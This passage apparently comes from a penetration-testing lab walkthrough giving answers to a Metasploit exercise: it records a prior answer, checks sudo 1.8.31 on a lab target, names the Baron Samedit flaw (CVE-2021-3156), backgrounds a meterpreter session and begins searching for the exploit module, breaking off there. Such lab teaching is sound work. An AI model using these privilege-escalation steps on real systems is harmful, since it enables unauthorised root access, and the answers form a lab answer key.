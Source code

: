 Answer: `www-data`

# Sessions & Jobs

## Question 3

### "The target system has an old version of Sudo running. Find the relevant exploit and get root access to the target system. Find the flag.txt file and submit the contents of it as the answer."

Students first need to know which version of `sudo` is running on the spawned target machine that they have penetrated in the previous question, which can be done using the command `sudo` with the flag `-V`:

Code: shell

```shell
sudo -V
```

```
www-data@nix02:~/html/files$ sudo -V

sudo -V
Sudo version 1.8.31
Sudoers policy plugin version 1.8.31
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.31
```

Searching online for exploits for `sudo 1.8.31`, students will find out that `sudo` had a critical vulnerability dubbed `Baron Samedit`, holding the CVE ID of `CVE-2021-3156`. Before searching for the exploit, students first need to background the current `meterpreter` session using the `background` command:

Code: shell

```shell
background
```

```
meterpreter > background

[*] Backgrounding session 1...
msf6 exploit(linux/http/elfinder_archive_cmd_injection) >
```

Then, students need to search for an exploit module for `CVE-2021-3156`, which can be done in multiple ways. Students can search using the CVE ID directly:

Code: shell

```shell
search CVE-2021-3156
```
